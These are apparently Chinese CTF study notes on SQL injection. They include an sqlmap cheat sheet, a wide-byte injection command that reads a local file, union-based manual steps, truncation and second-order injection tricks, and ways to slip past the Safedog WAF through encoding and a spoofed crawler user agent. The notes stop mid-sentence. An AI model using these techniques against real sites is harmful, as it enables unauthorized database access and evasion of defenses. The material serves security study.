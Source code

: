 ```shell
python sqlmap -u "127.0.0.1/index.php?id=1 %df'" --file-read="./index.php"
```

```
-u 单个URL -m xx.txt 多个URL
-d "mysql://user:password@10.10.10.137:3306/dvwa"  作为服务器客户端，直接连接数据库
--data post/get都适用
-p 指定扫描的参数
-r 读取文件
-f 指纹信息
--tamper 混淆脚本，用于应用层过滤
--cookie --user-agent --host等等http头的修改
--threads 并发线程 默认为1
--dbms MySQL<5.0> 指定数据库或版本

–level=LEVEL 执行测试的等级（1-5，默认为 1）
–risk=RISK 执行测试的风险（0-3，默认为 1） Risk升高可造成数据被篡改等风险
–current-db / 获取当前数据库名称
–dbs 枚举数据库管理系统数据库
–tables 枚举 DBMS 数据库中的表
–columns 枚举 DBMS 数据库表列
-D DB 要进行枚举的数据库名
-T TBL 要进行枚举的数据库表
-C COL 要进行枚举的数据库列
-U USER 用来进行枚举的数据库用户
```

确定字段数：order by n，select 1,2,…,n

确定显示位：select 1,2,3,4,5 ，然后看显示哪个数字，之后的查询语句最好用@或者NULL，防止数据类型不匹配而造成的测试失败，即 `select @, @, NULL`

[preg_match()](http://php.net/manual/zh/reference.pcre.pattern.modifiers.php)

+ i ==> 大小写不敏感
+ m ==> 可多行匹配
+ s ==> `.`匹配所有字符，包括换行符
+ x ==> 

**思路**

+   简单注入，手工或sqlmap跑
+   判断注入点，是否是http头注入？是否在图片处注入
+   判断注入类型
+   利用报错信息注入
+   尝试各种绕过过滤的方法
+   查找是否是通用某模板存在的注入漏洞，比如 ThinkPHP 3.2

**Tricks**

```shell
sql-mode = "STRICT_TRANS_TABLES"(默认未开启)
插入长数据截断，插入'admin                      x'绕过或越权访问(束缚攻击？)

注意二次注入
isg2015 web350 username 从 session 中直接带入查询，利用数据库字段长度截断，
\ 被 gpc 后为 \\，但是被截断了只剩下一个 \，引发注入

如果猜解不出数据库的字段，搜索后台，查看源代码，源代码登陆时的表单中的字段一般和数据库的相同

# 绕过安全狗
sel%ect
针对 asp + access，首先来挖掘一下数据库的特性：
1.可代替空格的字符：%09, %0A, %0C, %0D
2.可截断都免语句的注释符有：%00, %16, %22, %27
3.当 %09, %0A, %0C或%0D 超过一定长度后，安全狗的防御便失效了
4.UserAgent：BaiduSpider

有 magic_quotes_gpc = on 的情况下，
```